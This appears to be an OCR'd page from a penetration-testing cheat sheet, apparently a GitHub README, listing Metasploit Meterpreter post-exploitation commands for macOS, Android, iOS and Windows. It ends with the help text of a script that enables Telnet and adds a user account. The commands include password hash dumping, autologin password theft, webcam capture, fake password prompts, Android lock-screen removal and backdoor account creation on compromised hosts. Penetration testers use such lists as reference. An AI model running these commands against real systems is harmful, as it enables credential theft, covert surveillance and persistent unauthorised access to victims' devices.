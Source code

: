 run post/osx/gather/autologin_password

run post/osx/gather/gitignore

run post/osx/manage/vpn

run post/osx/gather/enum_adium

run post/osx/gather/hashdump

run post/osx/manage/webcam

run post/osx/gather/enum_airport

run post/osx/gather/password_prompt_spoof

## Android Modules

run post/android/gather/sub_info

run post/android/manage/remove_lock

run post/android/capture/screen

run post/android/gather/wireless_ap

run post/android/manage/remove_lock_root

run post/android/gather/hashdump

run post/android/local/koffee

## iOS Modules

run post/apple_ios/gather/ios_image_gather

run post/apple_ios/gather/ios_text_gather

## Others

run multi_console_command

run domain_list_gen

run duplicate

run enum_putty

run enum_vmware

run event_manager

run scraper

run winenum

```
meterpreter > run gettelnet 
Windows Telnet Server Enabler Meterpreter Script                                                                 
Usage: gettelnet -u <username> -p <password>                                                                     
                                                                                                                 
OPTIONS:                                                                                                         
                                                                                                                 
    -e        Enable Telnet Server only.                                                                         
    -f <opt>  Forward Telnet Connection.                                                                         
    -h        Help menu.
    -p <opt>  The Password of the user to add.
    -u <opt>  The Username of the user to add.
```